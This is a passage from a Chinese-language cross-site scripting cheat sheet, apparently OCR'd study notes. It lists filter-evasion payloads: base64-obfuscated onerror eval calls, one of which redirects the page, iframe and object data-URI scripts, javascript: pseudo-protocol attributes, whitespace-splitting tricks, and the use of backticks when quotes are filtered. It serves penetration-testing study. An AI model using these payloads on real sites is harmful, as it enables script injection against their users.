 ```html
<img>标签举例：
<img src="c" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">   //原payload为document.location='http://www.baidu.com'

<img src="c" onerror="eval(atob('YWxlcnQoInhzcyIp'))">

<iframe>标签举例：
<iframe/src=data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=></iframe>

<object>标签举例：
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=">img</object>
```

#### Javascript伪协议的使用

**例子：`<table background="javascript:alert(1)"></table>`。其中引号可以去掉**
**支持Javascript伪协议的属性有：`img`,`href`,`lowsrc`,`bgsound`,`background`,`action`,`dynsrc`**

#### `""`包裹的js代码利用空格、回车、tab键

**js代码中，利用`空格`，`回车`，`tab键`，切记只有`""`包裹的js代码才可以随便利用`空格`，`回车`，`tab键`，比如`src="java script:xxxx"`，而这样不行：`src=java script:xxxx`。而且`回车`、`换行`不支持在`on事件`中使用，`空格`可以**

**Javascript引擎特性：Javascript语句通常以分号结尾，但是如果引擎判断一条语句完整的话，且结尾有换行符，就可以省略分号。**

例：

```javascript
var a = 1
var b = 2;
//上述语句都正确
```

**示例：`<img src="javas cript:alert(1)">`,中间为`tab键`**

```html
用于绕过某些XSS防护
<img src="jav   ascript:alert('XSS');">

    也可以对TAB编码
<img src="jav&#x09;ascript:alert('XSS');">

    利用换行符拆解
<img src="jav&#x0A;ascript:alert('XSS');">

    利用回车拆解
<img src="jav&#x0D;ascript:alert('XSS');">
```

### 3.双引号、单引号被过滤的情况

#### 用反引号绕过

**如果是在html标签中，我们可以不用引号；如果是在javascript的函数中，我们可以用反引号代替单双引号。**
